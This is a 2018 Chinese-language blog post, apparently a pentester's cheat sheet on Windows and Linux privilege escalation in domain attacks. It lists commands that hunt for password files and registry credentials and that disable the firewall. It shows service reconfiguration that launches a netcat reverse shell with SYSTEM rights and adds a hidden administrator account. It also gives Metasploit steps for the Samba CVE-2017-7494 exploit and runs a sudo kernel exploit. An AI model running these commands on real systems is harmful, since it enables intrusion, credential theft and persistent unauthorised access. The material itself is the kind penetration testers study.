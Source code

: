 ```yaml
---
title: 域渗透(提权篇)
date: 2018-01-09 15:20:00
categories:
   - 技术相关
tags:
   - 域渗透
   - 笔记
---
```

<!-- more -->
0x01 常见信息收集

dir /a-r-d /s /b                                 检查文件夹可写状态
dir /b/s password.txt                            查找密码文件或其它敏感文件
dir /b/s config.*
findstr /si password *.xml *.ini *.txt 
findstr /si login *.xml *.ini *.txt 
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
dir /s *pass* == *cred* == *vnc* == *.config*    搜索system32关键字的文件
findstr /si password *.xml *.ini *.txt           搜索某些特定的文件类型
reg query HKLM /f password /t REG_SZ /s          搜索注册表中包含password
reg query HKCU /f password /t REG_SZ /s
netsh firewall show config                       显示 Windows 防火墙配置
netsh firewall show state                        显示 Windows 防火墙的当前状态 
netsh firewall set opmode disable                关闭防火墙
netsh advfilewall set publicprofile state off
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"    获取操作系统信息
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"         
schtasks /query /fo LIST /v                      计划任务 [国外调整 chcp 437]
route print                                      查看路由表
arp -A                                           查看ARP缓存

0x02 upnphost提权
sc qc Spooler                 查询，配置，和管理Windows服务
accesschk.exe -ucqv Spooler   检查每个服务需要的权限   XP_SP2被修复
攻击手法：
    sc qc upnphost
    sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e    C:\WINDOWS\System32\cmd.exe"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc qc upnphost
    net start upnphost
    执行netcat并且使用SYSTEM权限反弹一个shell
    sc config PFNET binpath= "net user admin P@ssword123! /add"
    sc stop PFNET
    sc start PFNET
    sc config PFNET binpath= "net localgroup Administrators admin /add"
    sc stop PFNET
    sc start PFNET

0x03 服务与权限
DRIVERQUERY                 安装驱动
wmic product list brief     查看安装程序和版本信息. [可能存在漏洞]
wmic service list brief     查看服务、进程和启动程序信息
wmic process list brief
wmic startup list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn   查看安装补丁和时间信息
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KBxxxxxxx"
wimc process where(description="进程名")       结合tasklist /svc 
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """    列出目标机器上所有没有用引号包含的服务路径
tasklist /v /fo list /fi "USERNAME eq NT AUTHORITY\SYSTEM"  筛选NT AUTHORITY\SYSTEM权限进程
icacls "C:\Program Files (x86)\360"     查看路径中受影响文件夹的权限



0x04 补丁对应Exp
补丁对比 https://github.com/GDSSecurity/Windows-Exploit-Suggester

pip install xlrd --upgrade
./windows-exploit-suggester.py --update
[+] writing to file 2014-06-06-mssb.xlsx 
输入“systeminfo”输入，并将其指向微软数据库
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo     win7sp1-systeminfo.txt 
未修补漏洞存在的exp
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext     'windows server 2008 r2'


0x05 AlwaysInstallElevated提权

http://www.greyhathacker.net/?p=185
如果这个设置被启用，它允许任何权限的用户暂时使用NT AUTHORITY\SYSTEM权限来安装*.msi文件。
AlwaysInstallElevated且它的DWORD值是1才有效。
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits
可以利用Advanced Installer(http://www.advancedinstaller.com/)生成msi安装包

0x06 查看.msi程序的执行权限

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

0x07 查看是否设置有setuid和setgid

reg query HKEY_Local_Machine\System\CurrentControlSet\Services\NfsSvr\Parameters\SafeSetUidGidBits

CVE-2017-1000367
    系统必须启用selinux
    sudo需要用selinux支持（sudo -r）
    用户需要具有sudo权限
gcc -o sudopwn sudopwn.c -lutil
./sudopwn

枚举系统设置和权限的检查
http://www.securitysift.com/download/linuxprivchecker.py

0x08 基于操作系统的内核版本号

https://github.com/PenturaLabs/Linux_Exploit_Suggester
./Linux_Exploit_Suggester.pl -k 内核版本号[例如3.10,结合uname -a]

0x09 检测权限提升向量的shell脚本

https://github.com/pentestmonkey/unix-privesc-check
unix-privesc-check standard
unix-privesc-check detailed

下载和解压缩脚本RootHelper
https://github.com/NullArray/RootHelper

0x10 CVE-2017-7494[Samba]

http://fuping.site/2017/05/25/Samba-Remote-Code-Execution-Vulnerability-Replication/
use exploit/linux/samba/is_known_pipename
set RHOST 192.168.232.137
set target 3
exploit

0x11 内核提权

lsb_release -a
uname -a
python -c 'import pty; pty.spawn("/bin/bash")'
suid 提权 [有限制]
find / -perm -u=s -type f 2>/dev/null

from:
https://04z.net/2017/07/10/AD-Attacks-go/
